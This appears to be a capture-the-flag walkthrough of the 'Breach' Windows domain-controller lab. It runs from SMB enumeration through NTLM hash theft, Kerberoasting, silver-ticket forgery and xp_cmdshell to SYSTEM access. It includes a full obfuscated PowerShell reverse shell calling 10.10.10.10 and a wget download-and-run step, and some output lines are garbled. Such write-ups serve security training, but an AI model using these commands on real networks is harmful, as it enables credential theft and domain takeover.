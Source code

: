 
# Breach

## Nmap

* Nmap results

```console
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-01-05 12:29:47Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: breach.vl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
| ssl-cert: Subjectuter_Name: BREACHDC
|   DNS_Domain_Name: breach.vl
|   DNS_Computer_Name: BREACHDC.breach.vl
|   DNS_Tree_Nam: commonName=BREACHDC.breach.vl
| Issuer: commonName=BREACHDC.breach.vl
| rdp-ntlm-info: 
|   Target_Name: BREACH
|   NetBIOS_Domain_Name: BREACH
|   NetBIOS_Compe: breach.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2025-01-05T12:30:39+00:00
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: BREACHDC; OS: Windows; CPE: cpe:/o:microsoft:windows

```

## SMB Shares

* Listing shares

```bash
smbclient -N -L \\\\$IP\\
```

```text
Sharename Type Comment
--------- ---- -------
ADMIN$    Disk Remote Adminx
C$        Disk Default share
IPC$      IPC  Remote IPC
NETLOGON  Disk Logon server share
share     Disk 
SYSVOL    Disk Logon server share
Users     Disk
```

* Nothing useful could be found in the Users share
* Upon visiting the transfer directory in the 'share' share, we can find few users listed in the machine

```text
Users
--------
claire.pope
diana.pope
julia.wong
```

## NTLM Steal

* Hypothetically assuming that someone will visit the share every now and then we can upload a malicious doc which can relay the Logged On user's NTLM to our responder.
* To achieve this we can make use of [https://github.com/Greenwolf/ntlm_theft](https://github.com/Greenwolf/ntlm_theft)

```bash
pip3 install xlsxwriter

python3 ntlm_theft.py -g all -s $attacker-ip -f test
```

* navigate to the generated directory and put these files onto the share in the transfer directory, have your responder running before these files were uploaded to the share.

```bash
smbclient -N \\\\$IP\\share

mask ""
RECURSE ON
PROMPT OFF
mput *
```

![ntlm-steal](breach-ntlm-steal.png)

## NTLM hash crack

* The captured NTLM hash can be cracked via hashcat

```bash
hashcat -m 5600 -a 0 julia-hash /usr/share/wordlists/rockyou.txt
```

* To verify if the user is pwned, we can use crackmapexec

```bash
crackmapexec smb -U julia.wong -p "password" --shares
```

![breach-julia-cme](breach-julia-cme.png)

* Upon Inspecting Julia's share we don't find anything valuable.

## BloodHound

* since the machine also has an ADDS running, bloodhound can fetch us further accounts and way to compromise them

```bash
bloodhound-python -u 'julia.wong' -p 'Password' -d breach.vl -ns $IP -c all --zip

```

* We can find the kerberoastable accounts from the report below

![breach-bloodhound](breach-bloodhound.png)

## Kerberoasting

* Kerberosting the svc_mssql account

```bash
impacket-GetUserSPNs -dc-ip breach.vl breach.vl/julia.wong:Password -request
```

## TGS hash crack

* cracking the captured TGS hash

```bash
hashcat -m 13100 -a 0 kerb-hash /usr/share/wordlists/rockyou.txt
```

* verifying the account is pwned via crackmapexec

```bash
crackmapexec smb $IP -U svc_mssql -p 'password'
```

![breach-mssql-cme](breach-svc-mssql-cme.png)

## Silver Ticket

* To craft the silver ticket we need the following things
  * Domain SID
  * NTHash of the svc_mssql (can be obtained by md5 hashing the plain text password)
  * SPN , which can be found in the TGS hash captured
* To get the Domain SID we can use lookupsid from impacket scripts

```bash
impacket-lookupsid svc_mssql:password@$Ip
```

* Forging the ticket

```bash
impacket-ticketer -nthash "69596C7AA1E8DAEE17F8E78870E25A5C" -domain-sid "S-1-5-21-2330692793-3312915120-706255856" -domain "breach.vl" -spn "MSSQLSvc/breachdc.breach.vl:1433" "administrator"
```

* Then export the ccache file

```bash
export KRB5CCNAME=administrator.ccache
```

## MSSQL

* Using impacket's mssql client now we can connect to the machines MSSQL server with our forged ticket

```bash
impacket-mssqlclient -k breachdc.breach.vl
```

![breach-mssql](breach-mssql.png)

* We can enable the xp_cmdshell to issue system commands as mentioned below

```console
sp_configure 'show advanced options', '1'
RECONFIGURE
sp_configure 'xp_cmdshell', '1'
RECONFIGURE
```

## Reverse shell via mssql

* As the machine has AntiVirus against basic reverse shells, we have to obfusicate the nishang shell as following.

```powershell
$c = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);$s = $c.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $s.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sb = (iex ". { $data } 2>&1" | Out-String ); $sb2 = $sb + '#';$seb = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($seb,0,$seb.Length);$s.Flush()};$c.Close()
```

```console
xp_cmdshell powershell mkdir C:\Temp\
xp_cmdshell powershell wget http://10.10.10.10/rev.ps1 -O C:\Temp\rev.ps1
xp_cmdshell powershell C:\Temp\rev.psq
```

![breach-reverseshell](breach-reverse-shell.png)

## Privilege Escalation

* as per the available privileges for the user, the SeImpersonatePrivilege can be abused to achieve System own
* We can use [God Potato](https://github.com/BeichenDream/GodPotato) for this also by modifying the the port in the previous script

![breach-root](breach-root.png)

